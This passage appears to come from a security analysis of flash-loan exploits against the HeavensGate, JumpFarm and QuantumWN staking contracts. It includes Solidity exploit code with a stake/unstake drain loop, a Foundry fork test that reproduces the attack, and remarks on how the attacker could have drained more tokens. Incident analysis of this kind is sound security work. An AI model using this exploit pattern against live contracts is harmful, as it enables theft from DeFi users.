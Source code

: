 ```solidity
        while(i < number) {
            uint balanceAttacker = jump.balanceOf(address(this));
            jumpStaking.stake(address(this), balanceAttacker);
            uint sTokenBalance = sHate.balanceOf(address(this));
            jumpStaking.unstake(address(this), sTokenBalance, true);
            i += 1;
        }
        uint fee = (amount0 * 3)/997+1;
        jump.transfer(msg.sender, flashAmount + fee);
    }
}
```

It is important to note that before the first attack, the Uniswap pair contains approximately 907k Hate tokens, and the staking contract holds about 577k Hate tokens. The staking contract itself has significantly fewer tokens than in the pair (the opposite is true for the FloorDAO incident). Therefore, by exploiting a logic vulnerability in the `stake` function, a significant profit can be quickly generated, depleting all of the staking contract's tokens. The first attack involved only three cycles of `stake-unstake`, resulting in the withdrawal of most of the Hate tokens from the staking contract. After the attack, the staking contract was left with only 66k Hate tokens, and the attacker gained 570k (the excess was newly minted during this process). 

(Here, looping three times and lending out only 90% of the tokens from the pool are likely parameters obtained through testing by the attacker. Excessive looping or staking too many tokens may result in an insufficient balance in the staking contract, leading to an `Insufficient HATE balance in contract` error.)

Subsequently, the attacker launched another attack. However, after this attack, the attacker gained approximately 22k Hate tokens in profit, and the staking contract's balance increased to around 580k tokens (even more than before the first attack).

Observing the second AttackTx, it can be seen that many `rebase` operations did not generate profit throughout the process. This indicates that the total token amount received during `stake` plus the newly minted tokens did not exceed the circulating supply of sHate. Thus, the subsequent token distribution occurred gradually with each `rebase`.

Examining the distributor reveals that the distribution amount during each `rebase` is 0.5%, which is 20 times that of the Floor.

In summary, the attacker's two attacks on HeavensGate were relatively crude, especially the second one. In fact, they could have obtained more Hate tokens. Due to the high token distribution rate and the large number of Hate tokens in the Uniswap pair, it would have been possible to first continuously perform `rebase` until a sufficient number of tokens were minted, and then exploit the `stake` function's bug to deplete the staking contract's tokens.

#### JumpFarm & QuantumWN

The attack vectors for these two projects are the same and can be reproduced based on AttackTx:

```solidity
function testJumpFarm() external {
    uint256 attackBlockNumber = 18070346;
    vm.rollFork(attackBlockNumber); 

    jump.approve(address(jumpStaking), type(uint256).max);
    sJump.approve(address(jumpStaking), type(uint256).max);

    address[] memory token = new address[](1);
    token[0] = address(weth);
    uint256[] memory amount = new uint256[](1);
    amount[0] = 15 * 1 ether;
    balancer.flashLoan(address(this), token, amount, "JumpFarm");

    // weth.withdraw(weth.balanceOf(address(this)));
    emit log_named_decimal_uint("eth balance after exploit", weth.balanceOf(address(this)), 18);
}

```